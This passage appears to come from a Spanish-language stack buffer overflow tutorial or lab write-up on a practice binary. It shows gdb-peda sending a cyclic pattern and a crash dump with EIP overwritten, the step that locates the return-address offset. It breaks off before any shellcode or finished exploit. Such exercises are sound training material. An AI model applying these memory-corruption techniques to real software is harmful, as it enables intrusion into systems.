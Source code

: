 <img src="/assets/vulnhub/buff/ret1.png">
</p>

- El problema de ahora es que no podemos correr el `shellcode` de antes por que mide mas del buffer asignado.

- Comenzamos enviado 50 bytes.

```bash
➜  levels gdb -q levelFour
Reading symbols from levelFour...
(No debugging symbols found in levelFour)
gdb-peda$ pattern_arg 50
Set 1 arguments to program
gdb-peda$ run
Starting program: /home/miguel/StackOverflow/levels/levelFour 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Buf: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x38 ('8')
EBX: 0x41412d41 ('A-AA')
ECX: 0xffffcf4c --> 0x48d58600
EDX: 0x1
ESI: 0xffffd010 --> 0x2
EDI: 0xf7ffcba0 --> 0x0
EBP: 0x44414128 ('(AAD')
ESP: 0xffffcfc0 ("A)AAEAAaAA0AAFAAbA")
EIP: 0x413b4141 ('AA;A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x413b4141
[------------------------------------stack-------------------------------------]
```